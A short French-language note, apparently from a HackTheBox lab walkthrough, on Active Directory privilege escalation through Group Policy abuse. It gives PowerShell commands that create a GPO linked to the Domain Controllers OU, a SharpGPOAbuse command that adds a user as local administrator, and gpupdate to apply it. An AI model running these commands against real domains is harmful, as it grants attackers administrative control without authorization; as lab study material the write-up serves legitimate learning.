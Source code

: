 
Possible de créer une GPO et de la lier à une OU.

https://github.com/FSecureLABS/SharpGPOAbuse


Créer GPO avec module ActiveDirectory

```
New-GPO -Name GPO-new | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

```
get-GPO -All
```

Configurer la GPO de sorte a ce qu'elle ajoute un user au groupe Admin Local.

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```

Appliquer la GPO

```
gpupdate
```

